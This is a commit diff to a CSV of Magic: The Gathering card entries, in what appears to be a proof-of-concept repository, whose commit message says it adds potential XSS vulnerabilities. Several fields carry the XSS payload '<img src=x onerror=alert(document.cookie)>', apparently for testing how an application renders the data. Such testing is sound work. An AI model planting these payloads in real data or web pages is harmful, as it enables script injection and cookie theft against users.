

Before and after one commit to nickhefty/poc_workspace, a CSV file: cards.csv, drawn as a sheet.

Commit message:
Update card entries
Replaced some card entries with new data and potential XSS vulnerabilities.

```diff
--- a/cards.csv
+++ b/cards.csv
@@ -1,5 +1,5 @@
 "Sedris, the Traitor King",Shards of Alara,FALSE,1
-<img src=x onerror=alert(document.cookie)>, Legends,FALSE,999
+Eureka, <img src=x onerror=alert(document.cookie)>,FALSE,1
 Bayou, 3rd Edition,FALSE,1
-Spirebluff Canal,Kaladesh,FALSE,1
-Griselbrand,Avacyn Restored,TRUE,1
+Spirebluff Canal,Kaladesh,<img src=x onerror=alert(document.cookie)>,1
+Griselbrand,Avacyn Restored,TRUE,<img src=x onerror=alert(document.cookie)>
```
